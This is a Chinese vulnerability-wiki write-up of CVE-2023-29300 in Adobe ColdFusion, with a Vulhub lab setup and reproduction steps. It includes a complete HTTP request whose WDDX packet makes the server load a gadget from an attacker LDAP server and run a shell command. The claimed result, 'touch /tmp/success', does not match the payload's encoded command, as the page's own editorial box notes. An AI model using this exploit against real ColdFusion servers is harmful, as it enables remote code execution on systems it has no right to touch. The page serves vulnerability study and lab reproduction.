



# Adobe ColdFusion XML 反序列化命令执行漏洞 CVE-2023-29300

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：受影响版本端点可达、JdbcRowSetImpl可用、LDAP可出站及兼容JVM/CommonsBeanutils链；管理员密码只安装准备
- 证据范围：给WDDX和外部工具调用，真正命令能力依赖JNDI/gadget，不是任意setter自动RCE

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺修复版与JDK/JNDI限制说明
- 显示最终touch /tmp/success与payload路径样例不直接对应，需统一结果标识
- Content-Length为静态样例需重算；图片未视检

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion在2018.0.16、2021.0.6、2023.0.0.330468版本及以前，存在一处XML反序列化漏洞。攻击者可以利用该漏洞调用Java中任意setter方法，最终执行任意命令。

参考链接：

- [https://blog.projectdiscovery.io/adobe-coldfusion-rce/](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)
- [https://xz.aliyun.com/t/13413](https://xz.aliyun.com/t/13413)

## 环境搭建

Vulhub启动一个Adobe ColdFusion 2018.0.15服务器：

```shell
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-vps-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。




## 漏洞复现

要利用这个漏洞，需要先找到一个可利用的setter方法作为Gadget。最常见的Gadget是利用`com.sun.rowset.JdbcRowSetImpl`来进行JNDI注入，并执行任意命令。

首先，启动一个恶意JNDI服务器，并加载`CommonsBeanutils1`作为内层反序列化Gadget。Github上有数个工具可以使用，比如[https://github.com/rebeyond/JNDInjector/releases](https://github.com/rebeyond/JNDInjector/releases)：




然后，将恶意LDAP地址替换到如下请求中发送：

```http
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://192.168.24.1/HiJbyQaUgJ/CommonsBeanutils1/Exec/eyJjbWQiOiJ0b3VjaCAvdG1wL2F3ZXNvbWVfcG9jIn0=</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

可见，`touch /tmp/success`已被成功执行：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
